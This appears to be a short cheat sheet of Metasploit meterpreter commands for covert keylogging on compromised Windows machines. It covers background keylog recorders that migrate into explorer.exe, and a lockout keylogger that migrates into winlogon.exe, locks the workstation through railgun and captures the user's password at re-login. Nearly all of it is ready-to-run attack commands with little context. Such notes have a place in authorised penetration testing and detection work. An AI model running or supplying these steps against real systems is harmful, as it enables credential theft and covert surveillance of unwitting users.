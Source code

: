 # Metasploit

```
meterpreter > bgrun post/windows/capture/keylog_recorder
```

It will migrate to `explorer.exe` then start recording keystrokes.

```
meterpreter > bgrun keylogrecorder -c 0 -t 15
```

## Keylog user credentials

```
meterpreter > run post/windows/capture/lockout_keylogger [pid=<winlogon_PID>]
```

It will migrate to `winlogon.exe` then start recording keystrokes.

```
meterpreter > irb
>> client.railgun.user32.LockWorkStation()

>> exit

meterpreter > bgrun keylogrecorder -c 1 -t 15
```
